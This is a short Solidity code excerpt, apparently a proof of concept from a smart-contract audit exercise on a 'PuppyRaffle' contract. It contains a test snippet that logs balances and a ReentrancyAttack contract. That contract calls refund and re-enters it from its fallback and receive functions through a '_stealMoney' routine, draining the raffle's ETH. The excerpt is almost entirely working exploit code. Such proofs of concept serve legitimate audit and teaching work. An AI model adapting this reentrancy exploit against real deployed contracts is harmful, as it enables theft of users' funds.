 ```javascript
        uint256 startingAttackerBalance = address(attackContract).balance;
        uint256 startingRaffleBalance = address (puppyRaffle).balance;

        vm.prank(attackUser);
        attackContract.attack{value:entranceFee}();

        console.log("Starting contract balance" , startingRaffleBalance);
        console.log("Staring attacker balance" , startingAttackerBalance);

        console.log("Ending attacker balance" , address(attackContract).balance);
        console.log("Ending contract balance" , address(puppyRaffle).balance);

    }

    contract ReentrancyAttack {

    PuppyRaffle raffle;
    uint256 entranceFee;
    uint256  _playerIndex;

    constructor (PuppyRaffle _raffle) {
        raffle = _raffle;
        entranceFee = raffle.entranceFee();
    }

    function attack () public payable {
        address [] memory players = new address[](1);
        players[0] = address(this);
        raffle.enterRaffle{value:entranceFee}(players);
        _playerIndex = raffle.getActivePlayerIndex(address(this));
        raffle.refund(_playerIndex);
    }

    function _stealMoney () public {
        if (address(raffle).balance >= entranceFee) {
            raffle.refund(_playerIndex);
        }
    }

    fallback () external payable {
        _stealMoney();
    }

    receive () external payable {
        _stealMoney();
    }
    
  }
```

